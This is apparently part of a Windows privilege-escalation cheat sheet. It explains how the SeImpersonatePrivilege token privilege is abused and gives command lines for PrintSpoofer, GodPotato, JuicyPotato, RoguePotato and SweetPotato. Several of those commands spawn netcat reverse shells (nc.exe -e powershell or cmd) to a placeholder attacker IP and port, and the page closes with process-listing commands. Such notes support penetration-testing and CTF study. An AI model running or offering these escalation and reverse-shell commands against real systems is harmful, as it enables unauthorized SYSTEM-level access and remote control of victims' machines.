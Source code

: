 ```
systeminfo
```


offers the possibility to leverage a token with another security context. Meaning, a user with this privilege can perform operations in the security context of another user account under the right circumstances. By default, Windows assigns this privilege to members of the local _Administrators_ group

tools: 
- PrintSpoofer
```
.\printspoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -c "nc.exe <attacket ip> <attacker port> -e powershell"
```
- RottenPotato
- GodPotato
```
# check .NET version
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

# fit the right version
.\GodPotato-NET<version>.exe -cmd ".\nc.exe <attacker ip> <attacker port> -e cmd"
```
- SweetPotato
```
.\SweetPotato.exe -p sys.exe
```
- JuicyPotato
```
.\JuicyPotato.exe -l 9999 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c .\nc.exe <attacker ip> <attacker port> -e powershell"
```
- metasploit - getsystem
- RoguePotato
```
.\RoguePotato.exe -r <kali_ip> -e ".\nc.exe <attacket ip> <attacker port> -e powershell" -l <listen_port>
```
#### levels of running process

```
- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard users
- Low: Very restricted rights often used in sandboxed[^privesc_win_sandbox] processes or for directories storing temporary data
- Untrusted: Lowest integrity level with extremely limited access rights for processes or objects that pose the most potential risk
```

list all process
```
# powershell
Get-Process
Get-Process <process_name> -FileVersionInfo

# cmd
wmic process list full
```
